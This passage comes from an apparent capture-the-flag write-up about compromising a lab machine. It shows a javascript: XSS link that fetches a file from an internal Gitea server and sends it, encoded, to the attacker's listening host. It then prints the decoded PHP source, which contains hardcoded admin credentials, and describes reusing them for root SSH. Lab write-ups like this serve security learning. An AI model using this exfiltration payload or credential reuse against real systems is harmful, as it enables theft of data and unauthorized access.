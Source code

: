 When i decrypt , it useless info

I tried to access index.php since it is the most common path 

```html
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md").then(response=>response.text()).then(data=>fetch("http://10.10.14.17:1111/?d="+encodeURIComponent(btoa(unescape(encodeURIComponent(data))))));'>XSS test</a>
```

![](/assets/images/Pasted%20image%2020250203064959.png)
It returned with some large data , when i decrypt 

```php
<?php
$valid_username = 'admin';
$valid_password = 'IKw75eR0MR7CMIxhH0';

if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']) || 
    $_SERVER['PHP_AUTH_USER'] != $valid_username || $_SERVER['PHP_AUTH_PW'] != $valid_password) {
    
    header('WWW-Authenticate: Basic realm="Employee Management"');
    header('HTTP/1.0 401 Unauthorized');
    exit;
}

header('Location: dashboard.php');
exit;
```

I got admin creds for the application , i tried to login in gitea but it didnt worked 

checked for SSH as root and it worked 

![](/assets/images/Pasted%20image%2020250203065322.png)

Pwned !

## Funny thing is ,

I got a brother when doing the machine , he saw my gitea repo having my ip , we talked like this 
